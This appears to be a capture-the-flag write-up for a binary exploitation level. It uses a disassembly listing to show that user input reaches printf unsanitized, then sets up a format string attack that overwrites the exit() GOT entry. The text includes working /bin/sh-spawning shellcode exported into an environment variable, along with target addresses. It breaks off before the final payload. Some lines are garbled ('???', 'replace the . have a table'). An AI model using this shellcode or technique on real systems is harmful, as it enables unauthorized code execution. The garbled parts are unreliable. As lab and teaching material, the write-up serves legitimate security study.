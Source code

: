 
# Overwrite .GOT table again

On this level we are provided with a program which takes a string as input via the **`gets()`** function, in the case of uppercase alphabetic characters these are transformed into lowercase letters before being printed by **`printf()`**.

```
08048444 <main>:
...
804846e:	8d 44 24 28          	lea    eax,[esp+0x28]
8048472:	89 04 24             	mov    DWORD PTR [esp],eax
8048475:	e8 d6 fe ff ff       	call   8048350 <fgets@plt>
804847a:	c7 84 24 8c 00 00 00 	mov    DWORD PTR [esp+0x8c],0x0
...
80484f3:	f2 ae                	repnz scas al,BYTE PTR es:[edi]
80484f5:	89 c8                	mov    eax,ecx
80484f7:	f7 d0                	not    eax
80484f9:	83 e8 01             	sub    eax,0x1
80484fc:	39 c3                	cmp    ebx,eax
80484fe:	72 87                	jb     8048487 <main+0x43>
8048500:	8d 44 24 28          	lea    eax,[esp+0x28]
8048504:	89 04 24             	mov    DWORD PTR [esp],eax
8048507:	e8 34 fe ff ff       	call   8048340 <printf@plt>
```

Since no sanitize takes place on our input and it is handled by printf, we can use a **format string attack**.

???
We notice at the same time that the program will end with an **`exit()`**, the address of the latter is not yet resolved at this stage of the program, so let’s replace the . have a table

```
08048444 <main>:
...
8048513:	e8 58 fe ff ff       	call   8048370 <exit@plt>
```

Let's build our attack.

First we will inject a spawn shell code into an environment variable :

    export SHELLCODE="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

Now let's get the location address of the .GOT exit table & previous ENV var :

**.GOT** table addr : **`0x80497e0`**
**ENV** var addr : **`0xffffd885`** / **`4294957189`**

We notice that the address of the ENV is a very large number, we will have to divide the overwrite operation into two parts.
